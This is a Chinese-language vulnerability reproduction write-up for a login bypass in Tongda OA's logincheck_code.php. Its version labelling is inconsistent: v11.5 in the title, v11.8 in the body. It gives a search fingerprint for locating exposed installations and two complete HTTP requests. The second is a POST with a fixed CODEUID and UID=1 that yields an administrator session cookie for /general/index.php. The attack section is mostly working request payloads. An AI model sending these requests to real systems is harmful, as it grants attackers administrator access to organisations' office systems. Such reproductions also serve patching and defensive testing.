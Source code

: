 # 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628306796311-4c49ac12-0e18-44ef-a0c2-c6a2d7d0f20a.png)

发送第一个请求包

```php
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628306860352-5e9f9343-742d-4697-abe8-7e5c2534722d.png)

再发送第二个恶意请求

```php
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628306918632-bb9e22e6-79b6-4fe1-8839-729fc9b6abe5.png)

获取cookie后访问管理员页面 `/general/index.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628307007812-02e45309-32af-4513-a89c-00aa30fb9366.png)
